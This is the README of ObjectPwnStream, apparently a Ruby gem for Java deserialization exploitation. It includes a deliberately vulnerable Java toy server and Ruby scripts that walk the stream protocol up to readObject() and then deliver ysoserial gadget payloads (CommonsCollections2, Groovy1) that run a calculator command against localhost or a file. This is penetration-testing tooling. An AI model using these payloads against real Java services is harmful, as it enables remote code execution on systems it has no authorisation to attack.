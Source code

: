 # ObjectPwnStream

a Ruby implementation of Java's `ObjectInputStream` and `ObjectOutputStream`, to ease the process of Java deserialization exploitation.

the library is currently able to deliver the serialized payloads to TCP connections (`tcpSocket.getInputStream()`) and files (`FileInputStream()`).
## Requirements
- Ruby v3.0.0 or newer

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'ObjectPwnStream'
```

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install ObjectPwnStream

Or install it from main branch:

    $ git clone https://github.com/hakivvi/ObjectPwnStream
    $ cd ObjectPwnStream
    $ bundle install && bundle exec rake install
    
## Documentation
See [ObjectPwnStream wiki page](https://github.com/hakivvi/ObjectPwnStream/wiki/Documentation) for a more detailed gem usage and methods documentation.

## Usage
the library provides a set of methods to mimic the methods of both `ObjectInputStream` and `ObjectOutputStream`,

the `readObject()` method is not always the first function run on a `Socket` or a `FileInputStream`, so you can't just feed the server with your serialized payload or else `java.io.StreamCorruptedException` will be thrown by the server.

take this [test server](https://github.com/hakivvi/ObjectPwnStream/blob/main/spec/test/ToyServer.java) for example, which does read and write a bunch of types before actually calling `readObject()` which the attacker is usually interested in:
```java
                s = serverSock.accept();
                System.out.println("[+] Connection accepted from " + s.getInetAddress().getHostAddress() + ":" + s.getPort());
                
                oos = new ObjectOutputStream(s.getOutputStream());
                ois = new ObjectInputStream(s.getInputStream());

                oos.writeInt(serverVersion);
                oos.flush();
                System.out.printf("[>] writeInt(): 0x%x\n", serverVersion);

                System.out.printf("[<] readInt(): 0x%x\n", ois.readInt());

                oos.writeUTF(serverName);
                oos.flush();
                System.out.printf("[>] writeUTF(): %s\n", serverName);

                System.out.printf("[<] readUTF(): %s\n", ois.readUTF());


                oos.writeShort(0xabcd);
                oos.flush();
                System.out.printf("[>] writeShort(): 0x%x\n", 0xabcd);

                System.out.printf("[<] readShort(): 0x%x\n", ois.readShort());
                
                oos.writeLong(-12345);
                oos.flush();
                System.out.printf("[>] writeLong(): %d\n", -12345);

                System.out.printf("[<] readLong(): %d\n", ois.readLong());


                oos.writeObject(new ToyServer());
                oos.flush();
                System.out.println("[>] writeObject()");

                System.out.println("[<] readObject()");
                try {
                	ois.readObject();
               	} catch (Throwable e) {}
```
to reach the `readObject()` method in this server connection, we should read and write successively `int`, `utf`, `short` etc.
using `ObjectPwnStream` library, we can do just that:
```ruby
require 'ObjectPwnStream'

pwnStream = ObjectPwnStream::PwnStream.new(host: "127.0.0.1", port: 9090)
pwnStream.connect!
pwnStream.open_streams!
pwnStream.read_int
pwnStream.write_int(0x1337)
pwnStream.read_utf
pwnStream.write_utf "ObjectPwnStream"
pwnStream.read_short
pwnStream.write_short(0xabcd)
pwnStream.read_long(signed: true)
pwnStream.write_long(-12345)
pwnStream.read_object
pwnStream.ysoserial_generate!("./ysoserial.jar","CommonsCollections2", "gnome-calculator", encode: true, windows: false)
pwnStream.write_object(ysoserial: true)
```
or as a [`FileInputStream`](https://github.com/hakivvi/ObjectPwnStream/blob/main/spec/test/ToyServerFileMode.java):
```java
        ObjectInputStream fis = new ObjectInputStream(new FileInputStream("/tmp/to_deserialize_file"));

        System.out.printf("got a long from the file: %d\n", fis.readLong());
        try {
            fis.readObject();
        } catch(Throwable e){}
        System.out.println("readObject(): done.");
```
to successfully reach `readObject()`, we should provide a valid `long` type first, the [script](https://github.com/hakivvi/ObjectPwnStream/blob/main/spec/test/test_file_mode.rb) will be:
```ruby
require 'ObjectPwnStream'

pwnStream = ObjectPwnStream::PwnStream.new(file_path: "/tmp/to_deserialize_file")
pwnStream.connect!
pwnStream.open_output_stream!
pwnStream.write_long(12345)
pwnStream.ysoserial_generate!("../ysoserial.jar", "Groovy1", "gnome-calculator", encode: true, windows: false)
pwnStream.write_object(ysoserial: true)
pwnStream.close!
```
## PoC

find a test vulnerable Java server and a Ruby ObjectPwnStream exploit in the [test](https://github.com/hakivvi/ObjectPwnStream/tree/main/spec/test) directory.

![poc](https://user-images.githubusercontent.com/67718634/170808392-1ce8efff-b8c6-4372-8d7a-b20b4fbeadc9.gif)


## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/hakivvi/ObjectPwnStream. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

## Code of Conduct

Everyone interacting in the ObjectPwnStream project’s codebases, issue trackers, chat rooms and mailing lists is expected to follow the [code of conduct](https://opensource.guide/code-of-conduct/).

## Todo

- [X] document all the functions.
- [ ] support CLI mode.
